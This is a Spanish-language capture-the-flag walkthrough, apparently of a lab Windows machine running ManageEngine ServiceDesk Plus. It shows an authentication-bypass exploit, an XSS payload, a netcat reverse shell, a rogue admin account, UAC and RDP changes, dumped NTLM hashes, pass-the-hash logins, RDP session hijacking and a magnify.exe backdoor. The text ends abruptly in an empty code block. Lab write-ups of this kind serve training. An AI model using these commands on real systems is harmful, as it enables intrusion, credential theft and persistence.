```zsh
ping -c 3 10.10.10.132

PING 10.10.10.132 (10.10.10.132) 56(84) bytes of data.
64 bytes from 10.10.10.132: icmp_seq=1 ttl=127 time=201 ms
64 bytes from 10.10.10.132: icmp_seq=2 ttl=127 time=133 ms
64 bytes from 10.10.10.132: icmp_seq=3 ttl=127 time=133 ms
```

`TTL= 127 = Maquina Windows`

## Recon

```zsh
nmap -sCV -p 135,445,8080,49667 10.10.10.132 -oN targeted
```

```zsh
# Nmap 7.95 scan initiated Mon Jul 28 20:21:35 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p 135,445,8080,49667 -oN targeted 10.10.10.132
Nmap scan report for 10.10.10.132
Host is up (0.13s latency).

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
8080/tcp  open  http-proxy    -
|_http-title: ManageEngine ServiceDesk Plus
|_http-server-header: -
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Set-Cookie: JSESSIONID=3D4775CC5DBE6BAF221E65F4C3FEA826; Path=/; HttpOnly
|     Cache-Control: private
|     Expires: Thu, 01 Jan 1970 01:00:00 GMT
|     Content-Type: text/html;charset=UTF-8
|     Vary: Accept-Encoding
|     Date: Tue, 29 Jul 2025 00:21:44 GMT
|     Connection: close
|     Server: -
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <script language='JavaScript' type="text/javascript" src='/scripts/Login.js?9309'></script>
|     <script language='JavaScript' type="text/javascript" src='/scripts/jquery-1.8.3.min.js'></script>
|     <link href="/style/loginstyle.css?9309" type="text/css" rel="stylesheet"/>
|     <link href="/style/new-classes.css?9309" type="text/css" rel="stylesheet">
|     <link href="/style/new-classes-sdp.css?9309" type="text/css" rel="stylesheet">
|     <link href="/style/conflict-fix.css?9309" type="text/css" rel="stylesheet">
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Set-Cookie: JSESSIONID=421AA7B4E3E85147CFABEE35F433C011; Path=/; HttpOnly
|     Cache-Control: private
|     Expires: Thu, 01 Jan 1970 01:00:00 GMT
|     Content-Type: text/html;charset=UTF-8
|     Vary: Accept-Encoding
|     Date: Tue, 29 Jul 2025 00:21:46 GMT
|     Connection: close
|     Server: -
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <script language='JavaScript' type="text/javascript" src='/scripts/Login.js?9309'></script>
|     <script language='JavaScript' type="text/javascript" src='/scripts/jquery-1.8.3.min.js'></script>
|     <link href="/style/loginstyle.css?9309" type="text/css" rel="stylesheet"/>
|     <link href="/style/new-classes.css?9309" type="text/css" rel="stylesheet">
|     <link href="/style/new-classes-sdp.css?9309" type="text/css" rel="stylesheet">
|_    <link href="/style/conflict-fix.css?9309" type="text/css" rel="stylesheet">
49667/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.95%I=7%D=7/28%Time=68881418%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,25D6,"HTTP/1\.1\x20200\x20OK\r\nSet-Cookie:\x20JSESSIONID=3D47
SF:75CC5DBE6BAF221E65F4C3FEA826;\x20Path=/;\x20HttpOnly\r\nCache-Control:\
SF:x20private\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2001:00:00\x20GMT\
SF:r\nContent-Type:\x20text/html;charset=UTF-8\r\nVary:\x20Accept-Encoding
SF:\r\nDate:\x20Tue,\x2029\x20Jul\x202025\x2000:21:44\x20GMT\r\nConnection
SF::\x20close\r\nServer:\x20-\r\n\r\n<!DOCTYPE\x20html>\n<html>\n<head>\n<
SF:meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=Edge\">\n\n\n\n\
SF:r\n\n\x20\x20\x20\x20<script\x20language='JavaScript'\x20type=\"text/ja
SF:vascript\"\x20src='/scripts/Login\.js\?9309'></script>\n\x20\x20\x20\x2
SF:0<script\x20language='JavaScript'\x20type=\"text/javascript\"\x20src='/
SF:scripts/jquery-1\.8\.3\.min\.js'></script>\n\x20\x20\x20\x20\n\x20\x20\
SF:x20\x20<link\x20href=\"/style/loginstyle\.css\?9309\"\x20type=\"text/cs
SF:s\"\x20rel=\"stylesheet\"/>\n\x20\x20\x20\x20<link\x20href=\"/style/new
SF:-classes\.css\?9309\"\x20type=\"text/css\"\x20rel=\"stylesheet\">\n\x20
SF:\x20\x20\x20<link\x20href=\"/style/new-classes-sdp\.css\?9309\"\x20type
SF:=\"text/css\"\x20rel=\"stylesheet\">\n\x20\x20\x20\x20<link\x20href=\"/
SF:style/conflict-fix\.css\?9309\"\x20type=\"text/css\"\x20rel=\"styleshee
SF:t\">")%r(HTTPOptions,25D6,"HTTP/1\.1\x20200\x20OK\r\nSet-Cookie:\x20JSE
SF:SSIONID=421AA7B4E3E85147CFABEE35F433C011;\x20Path=/;\x20HttpOnly\r\nCac
SF:he-Control:\x20private\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2001:0
SF:0:00\x20GMT\r\nContent-Type:\x20text/html;charset=UTF-8\r\nVary:\x20Acc
SF:ept-Encoding\r\nDate:\x20Tue,\x2029\x20Jul\x202025\x2000:21:46\x20GMT\r
SF:\nConnection:\x20close\r\nServer:\x20-\r\n\r\n<!DOCTYPE\x20html>\n<html
SF:>\n<head>\n<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=Edge
SF:\">\n\n\n\n\r\n\n\x20\x20\x20\x20<script\x20language='JavaScript'\x20ty
SF:pe=\"text/javascript\"\x20src='/scripts/Login\.js\?9309'></script>\n\x2
SF:0\x20\x20\x20<script\x20language='JavaScript'\x20type=\"text/javascript
SF:\"\x20src='/scripts/jquery-1\.8\.3\.min\.js'></script>\n\x20\x20\x20\x2
SF:0\n\x20\x20\x20\x20<link\x20href=\"/style/loginstyle\.css\?9309\"\x20ty
SF:pe=\"text/css\"\x20rel=\"stylesheet\"/>\n\x20\x20\x20\x20<link\x20href=
SF:\"/style/new-classes\.css\?9309\"\x20type=\"text/css\"\x20rel=\"stylesh
SF:eet\">\n\x20\x20\x20\x20<link\x20href=\"/style/new-classes-sdp\.css\?93
SF:09\"\x20type=\"text/css\"\x20rel=\"stylesheet\">\n\x20\x20\x20\x20<link
SF:\x20href=\"/style/conflict-fix\.css\?9309\"\x20type=\"text/css\"\x20rel
SF:=\"stylesheet\">");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-29T00:23:24
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 28 20:24:02 2025 -- 1 IP address (1 host up) scanned in 146.53 seconds
```

## Enumeration



```
administrator/administrator
```



```
guest/guest
```



## Administrator

Despues de estar minutos buscando alguna vulnerabilidad


### CVE-2021-44077

https://www.exploit-db.com/exploits/46659

```zsh
python3 exploit.py
```

```dtd
Url: http://10.10.10.132:8080
User with low priv: guest:guest
User to bypass authentication to: administrator
Getting a session id
Sessid:
91F37CCD796406B6BE141BD20AD9219F
Logging in with low privilege user
Captured authenticated cookies.
29F66DA431869841E1E70D9EB4EE4BD6
ED7CDD04106A671E511D51B4BA926BA3
Captured secondary sessid.
317017D200BBDF765FBE791998CD1083
Doing the magic step 1.
Doing the magic step 2.
Captured target session.Set following cookies on your browser.
JSESSIONID=B7E0A511C8D49C6B9684CFD08AC46B74
JSESSIONIDSSO=76588A444801ED5EDE1AF4B6AF37D7CA
febbc30d=5de808552f224573a8b3087cb580ed50
mesdpc9c14c513d=392769731532db01e9ffd0a2b12a0be398e574ff
_rem=true
```



Es vulnerable a XSS tambien

```zsh
/SolutionSearch.do?searchText=1'%3balert('XSS')%2f%2f706z8rz68&selectName=Solutions
```



## Remote Code Execution

```zsh
chmod +x nc.exe
impacket-smbserver racc0x $(pwd) -smb2support
```

```
Admin -> Custom Triggers -> New Action
```



```
Request -> new Incident
```



- Reverse Shell





```powershell
c:\Users\tolu\Desktop>whoami
whoami
nt authority\system
```

Para cambiar al disco C: solo tecleamos C: y cambiara al disco.

```powershell
C:
```

```powershell
c:\Users\tolu\Desktop>type user.txt
type user.txt
Access is denied.
```

?

```powershell
cipher /c user.txt

 Listing c:\Users\tolu\Desktop\
 New files added to this directory will not be encrypted.

E user.txt
  Compatibility Level:
    Windows XP/Server 2003

  Users who can decrypt:
    HELPLINE\tolu [tolu(tolu@HELPLINE)]
    Certificate thumbprint: 91EF 5D08 D1F7 C60A A0E4 CEE7 3E05 0639 A669 2F29 

  No recovery certificate found.

  Key information cannot be retrieved.

The specified file could not be decrypted.
```

```
net user drei drei23 /add
net localgroup administrators drei /add
```

UAC Disable:

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

```
Set-NetFirewallRule -Name RemoteDesktop-UserMode-In-TCP -Enabled true

Set-ItemProperty -Path 'HKLM:\\System\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp' -name "UserAuthentication" -Value 1

Set-ItemProperty -Path 'HKLM:\\System\\CurrentControlSet\\Control\\Terminal Server'-name "fDenyTSConnections" -Value 0
```

## SecretsDump

```zsh
impacket-secretsdump drei:drei23@10.10.10.132
```

```zsh
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf684313986dcdab719c2950661809893
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d5312b245d641b3fae0d07493a022622:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:52a344a6229f7bfa074d3052023f0b41:::
alice:1000:aad3b435b51404eeaad3b435b51404ee:998a9de69e883618e987080249d20253:::
zachary:1007:aad3b435b51404eeaad3b435b51404ee:eef285f4c800bcd1ae1e84c371eeb282:::
leo:1009:aad3b435b51404eeaad3b435b51404ee:60b05a66232e2eb067b973c889b615dd:::
niels:1010:aad3b435b51404eeaad3b435b51404ee:35a9de42e66dcdd5d512a796d03aef50:::
tolu:1011:aad3b435b51404eeaad3b435b51404ee:03e2ec7aa7e82e479be07ecd34f1603b:::
drei:1012:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
edrei:1013:aad3b435b51404eeaad3b435b51404ee:23130388e561f545ee64174722a27e05:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword 
leo:fe22ca6029a87b98e527686a56c12aa9
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xac6ecf4487d6451ab055dde974cd04dd2ae8463c
dpapi_userkey:0x2d28120da695e819700547fa7329d71dc8e9b546
[*] NL$KM 
 0000   E3 05 BC AB 6F AC 32 0E  38 53 9A 46 3E A8 2B 90   ....o.2.8S.F>.+.
 0010   3E 1E A1 C3 94 65 8D 5D  5A 2A 6D F5 FC C4 93 49   >....e.]Z*m....I
 0020   CE 68 24 DF 38 F0 A6 3D  E1 60 73 E2 B1 CE 1A CC   .h$.8..=.`s.....
 0030   43 DB 81 EE C8 34 DE 2E  98 4E 5C D3 35 3F 4A D4   C....4...N\.5?J.
NL$KM:e305bcab6fac320e38539a463ea82b903e1ea1c394658d5d5a2a6df5fcc49349ce6824df38f0a63de16073e2b1ce1acc43db81eec834de2e984e5cd3353f4ad4
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

```zsh
impacket-psexec administrator@10.10.10.132 cmd -hashes 'aad3b435b51404eeaad3b435b51404ee:d5312b245d641b3fae0d07493a022622'
```
## RDP

```zsh
xfreerdp3 /v:10.10.10.132:3389 /u:administrator /pth:d5312b245d641b3fae0d07493a022622
```



```
query session
```



Rapidamente ejecutamos el comando xfreerdp3 y antes de que se cierre volvemos a la powershell de administrator y volvemos a lanzar el query session y cambiamos

```
query session
tscon 1 /dest:rdp-tcp#3
```






```
evil-winrm -i 10.10.10.132 -u administrator -H "d5312b245d641b3fae0d07493a022622"
```

```powershell
takeown /f magnify.exe
icacls magnify.exe /grant *S-1-1-0:F
copy cmd.exe magnify.exe
```



```
Computer/HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```




```
leo
thetoffees123!@football
```


```
net localgroup "Remote Desktop Users" Everyone /Add
```

## RDP | Leo

Volvemos a realizar el logeo con rdp 

```zsh
xfreerdp3 /v:10.10.10.132:3389 /u:leo /p:'thetoffees123!@football'
```

```
query sessions
tscon 1 /dest:rdp-tcp#10
```



``powershell secure string``

```powershell
